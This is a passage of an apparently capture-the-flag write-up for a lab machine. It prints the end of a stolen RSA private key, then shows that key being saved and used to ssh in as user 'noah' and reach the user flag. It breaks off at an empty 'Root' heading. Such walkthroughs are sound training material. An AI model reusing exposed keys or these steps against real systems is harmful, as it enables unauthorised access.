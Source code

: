 ```php
AuyJ2O4JAoGBAO67RmkGsIAIww/DJ7fFRRK91dvQdeaFSmA7Xf5rhWFymZ/spj2/
rWuuxIS2AXp6pmk36GEpUN1Ea+jvkw/NaMPfGpIl50dO60I0B4FtJbood2gApfG9
0uPb7a+Yzbj10D3U6AnDi0tRtFwnnyfRevS+KEFVXHTLPTPGjRRQ41OdAoGBANlU
kn7eFJ04BYmzcWbupXaped7QEfshGMu34/HWl0/ejKXgVkLsGgSB5v3aOlP6KqEE
vk4wAFKj1i40pEAp0ZNawD5TsDSHoAsIxRnjRM+pZ2bjku0GNzCAU82/rJSnRA+X
i7zrFYhfaKldu4fNYgHKgDBx8X/DeD0vLellpLx/AoGBANoh0CIi9J7oYqNCZEYs
QALx5jilbzUk0WLAnA/eWs9BkVFpQDTnsSPVWscQLqWk7+zwIqq0v6iN3jPGxA8K
VxGyB2tGqt6jI58oPztpabGBTCmBfh82nT2KNNHfwwmfwZjdsu9I9zvo+e3CXlBZ
vglmvw2DW6l0EwX+A+ZuSmiZAoGAb2mgtDMrRDHc/Oul3gvHfV6CYIwwO5qK+Jyr
2WWWKla/qaWo8yPQbrEddtOyBS0BP4yL9s86yyK8gPFxpocJrk3esdT7RuKkVCPJ
z2yn8QE6Rg+yWZpPHqkazSZO1eItzQR2mYG2hzPKFtE7evH6JUrnjm5LTKEreco+
8iCuZAcCgYEA1fhcJzNwEUb2EOV/AI23rYpViF6SiDTfJrtV6ZCLTuKKhdvuqkKr
JjwmBxv0VN6MDmJ4OhYo1ZR6WiTMYq6kFGCmSCATPl4wbGmwb0ZHb0WBSbj5ErQ+
Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
-----END RSA PRIVATE KEY-----
```

Copying the key to a file and setting the right permission on it we can now ssh into the target as noah and grab the user flag.

```php
$ vi noah
$ chmod 600 noah
$ ssh -i noah noah@10.129.170.242
The authenticity of host '10.129.170.242 (10.129.170.242)' can't be established.
ECDSA key fingerprint is SHA256:GHcgekaLnxmzAeBtBN8jWgd3DME3eniUb0l+PDmejDQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.170.242' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 31 09:35:53 UTC 2021

  System load:  0.0               Processes:              182
  Usage of /:   45.9% of 7.81GB   Users logged in:        0
  Memory usage: 12%               IP address for ens160:  10.129.170.242
  Swap usage:   0%                IP address for docker0: 172.17.0.1


137 packages can be updated.
75 updates are security updates.


Last login: Wed Feb 24 09:09:34 2021 from 10.10.14.5
noah@thenotebook:~$ wc -c user.txt 
33 user.txt
```

# Root
